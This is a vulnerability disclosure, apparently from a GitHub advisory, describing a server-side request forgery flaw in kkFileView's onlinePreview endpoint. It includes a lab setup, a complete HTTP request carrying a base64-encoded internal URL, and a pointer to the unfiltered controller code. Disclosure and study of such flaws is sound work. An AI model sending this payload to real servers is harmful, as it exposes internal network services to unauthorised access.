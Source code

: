 # KkFileView存在SSRF漏洞


The server provides the function of obtaining data from other server applications without filtering or restricting addresses and protocols.

Set up the test environment as shown below

Set up kkFileView service on Server1 server and start HTTP service on port 90 of Server2 host

Server2 host Settings do not allow direct access from PC1 hosts

![](./img/9.png)

By accessing server1 `http://ip:prot/onlinPreview?url=`

The Intranet request address to be probed is base64 encoded and used as the URL parameter value for this request

![](./img/8.png)

**Related Request packets**

```
GET /onlinePreview?url=aHR0cDovLzE5Mi4xNjguMTcuMTUzOjkwL2luZGV4Lmh0bWw= HTTP/1.1
Host: 192.168.17.128:8012
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

The contents of the Server2 host can be detected in the response package

![](./img/7.png)

You can also see Server1 requesting it in Server2's Web services log

![](./img/6.png)


120/5000 
Check the `server\src\main\java\cn\keking\web\controller\OnlinePreviewController.java` 
OnlinePreview function in Java Here is not to the incoming base64 content filtering operation

![](./img/10.png)